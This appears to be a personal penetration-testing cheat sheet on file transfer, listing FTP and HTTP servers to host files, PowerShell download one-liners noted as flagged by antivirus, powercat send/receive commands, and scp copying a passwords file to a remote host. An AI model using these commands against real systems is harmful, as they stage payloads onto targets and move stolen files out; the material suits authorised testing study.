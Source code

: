 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#exploitation
# Services to Host Files on your System: 

General Options: 

FTP:

Install pyftpdlib
- pip3 install pyftpdlib

Pure-ftpd
- sudo apt install pure-ftpd
- service pure-ftpd start

Run (-w flag allows anonymous write access)
- Python3 -m pyftpdlib -p 21 -w

Web: 

- Python3 -m http.server 443
- service apache2 start

Powershell: 

Raw (Will get flagged by AV/AMSI): 

- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'
- powershell -c Invoke-WebRequest -Uri "http://172.21.0.0" -OutFile "C:\path\file"


Use Powercat: 

Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile

Linux: 

scp: 

- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

scp through ssh: 

- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory

scp remote file to local system: 

- scp remote_username@172.21.0.2:/remote/file.txt /local/directory


# Services to allow you to upload files to your system from the target: 

- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938
    